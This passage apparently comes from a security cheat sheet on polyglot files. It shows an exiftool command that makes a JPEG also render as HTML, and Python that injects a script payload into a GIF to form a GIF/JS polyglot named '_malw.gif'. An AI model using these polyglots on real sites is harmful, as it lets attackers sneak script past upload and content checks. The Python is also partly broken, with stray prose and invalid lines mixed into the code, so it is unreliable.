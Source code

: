 ```sh
exiftool -comment='<style>*{visibility: hidden;} div{visibility: visible; position: absolute;}</style><div><h1>Web Scale Big Database</h1><img src="#"><!--' image.jpg
mv image.jpg index.html
```

See [This HTML page is also a JPEG : programming](https://www.reddit.com/r/programming/comments/4wak58/this_html_page_is_also_a_jpeg/d65fe6m/)

### Polyglot GIF - JS file

[Funky File Formats \[31c3\] - YouTube](https://www.youtube.com/watch?v=Ub5G_t-gUBc&t=571) and https://speakerdeck.com/ange/funky-file-formats-31c3?slide=42

```py
header = (
	b'\x47\x49\x46\x38\x39\x61'  #Signature + Version  GIF89a
	b'\x2F\x2A' #Encoding /* it's a valid Logical Screen Width
	b'\x0A\x00' #Smal Logical Screen Height
	b'\x00' #GCTF
	b'\xFF' #BackgroundColor
	b'\x00' #Pixel Ratio
	b'\x2C\x00\x00\x00\x00\x2F\x2A\x0A\x00\x00\x02\x00\x3B' #GlobalColorTable + Blocks
	b'\x2A\x2F' #Commenting out */
	b'\x3D\x31\x3B' # enable the script side by introducing =1;
)
trailer = b'\x3B'
 I made this explicit, step by step .
f.write(header)
f.write(payload)
f.write(trailer)

///////
"""
Injects the payload into existing GIF
NOTE: if the GIF contains \xFF\x2A and/or \x2A\x5C might caouse issues
"""
 I know, I can do it all in memory and much more fast.
 I wont do it here.
with open(fname + "_malw.gif", "w+b") as fout:
	with open(fname, "rt") as fin:
		for line in fin:
			ls1 = line.replace(b'\x2A\x2F', b'\x00\x00')
			ls2 = ls1.replace(b'\x2F\x2A', b'\x00\x00')
			fout.write(ls2)
	fout.seek(6,0)
	fout.write(b'\x2F\x2A') #/*

f = open(fname + "_malw.gif", "a+b") #appending mode
f.write(b'\x2A\x2F\x3D\x31\x3B')
f.write(payload)
f.write(b'\x3B')
```

